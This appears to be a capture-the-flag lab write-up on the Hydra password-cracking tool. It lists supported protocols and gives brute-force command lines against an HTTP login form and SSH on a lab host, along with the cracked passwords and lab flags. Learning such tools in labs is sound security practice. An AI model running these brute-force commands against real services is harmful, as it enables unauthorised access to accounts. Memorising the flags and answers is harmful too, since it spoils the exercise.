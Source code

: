 # Hydra

## Hydra Introduction

Hydra is a brute force online password cracking program.

Hydra can be used to run through a list and bruteforce an authentication service.

```
Hydra has the ability to bruteforce the following protocols: Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP.
```

## Using Hydra

The options that we pass into Hydra depend on which service we are attacking.

For FTP - `hydra -l user -P <passlist.txt> ftp://<IP>`

For SSH - `﻿hydra -l <username> -P <full path to pass> 10.10.233.164 -t 4 ssh`

Hydra can also be used to brute for web forms too, provided you know the type of request that is being made. This can all be found in the source code or in the development tools section of your web browser.

**Questions**

    1. Use Hydra to bruteforce molly's web password. What is flag 1?

THM{2673a7dd116de68e85c48ec0b1f2612e}

`hydra -l molly -P /opt/wordlist/rockyou.txt 10.10.233.164 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V`

molly:sunshine

    2. Use Hydra to bruteforce molly's SSH password. What is flag 2?

THM{c8eeb0468febbadea859baeb33b2541b}

`hydra 10.10.233.164 -l molly -P /opt/wordlist/rockyou.txt -t16 ssh -V`

molly:butterfly